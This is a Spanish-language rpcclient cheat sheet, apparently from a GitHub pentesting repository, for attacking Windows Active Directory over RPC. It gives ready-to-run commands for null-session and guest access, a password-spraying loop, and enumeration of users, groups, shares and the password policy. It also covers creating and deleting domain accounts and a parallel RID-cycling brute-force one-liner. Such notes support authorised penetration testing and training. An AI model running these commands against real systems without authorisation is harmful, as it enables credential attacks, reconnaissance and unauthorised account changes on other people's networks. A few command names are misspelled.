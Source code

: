 # RPCclient Cheat Sheet

#### Acceso con Null Session
```
rpcclient -U "" <IP-TARGET> -N
```

#### Acceso con usuario invitado
```
rpcclient -U "gest%" <IP-TARGET> -N
```

#### Acceso con autenticación
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -N
```

#### Password Spraying - Conocer a través de una lista de usuarios cuales tienen acceso con una contraseña dada
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%<PASSWORD>" -c "getusername;quit" <IP-TARGET> | grep Authority; done
```

#### Enumerar los Dominios
```
rpclcient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c "enumdomains"
```

#### Enumerar los usuarios del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'enumdomusers'
```

#### Enumerar los grupos del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'enumdomgroups'
```

#### Mostrar los datos y descripción de un usuario
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'queryuser <USER>'
```

#### Enumerar los usuarios que son de un 'rid' grupo en especifico del Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'querygroupmem 0x200'
```

#### Mostrar la información de un usuario por su 'rid'
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'queryuser 0x1f4'
```

#### Mostrar la descripción de todos los usuarios
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'querydispinfo'
```

#### Mostrar la Politica de Contraseñas
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'getdompwinfo'
```

#### Crear un usuario del AD (Teniendo los privilegios necesarios)
```
rpclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET>
rpcclient> createdomuser <username>
rpcclient> setuserinfo2 <username> 24 <password>
rpcclient> enumdomusers
```

#### Eliminar un usuario del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'deletedomuser <USER>'
```

#### Enumerar los recursos compartidos
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'netshareenum'
```

#### Crear un Grupo de Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'createdomgroup <NEW-GROUP>'
```

#### Eliminar un Grupo de Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'deletedomgroup <GROUP>'
```

#### Obtener el SID de un usuario que sepamos que existe
```
rpcclient -U "gest%" <IP-TARGET> -c 'lookupnames <USERNAME>'

rpcclient -U "gest%" <IP-TARGET> -c 'lookupnames Administrator'
```

#### Saber el usuario proporcionando el SID 
```
rpcclient -U "gest%" <IP-TARGET> -c 'lookupsids <SID>'
```

#### Comando para Fuerza Bruta y conocer los usuarios que existen proporcioando el SID del usuario administrator y modificar los ulitmos digitos (RPC RID Cycling Attack)
```
seq 400 2000 | xargs -P 50 -I {} rpcclient -U "gest%" <IP-TARGET> -c 'lookupsids <SID>-{}' | grep -v unknown
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)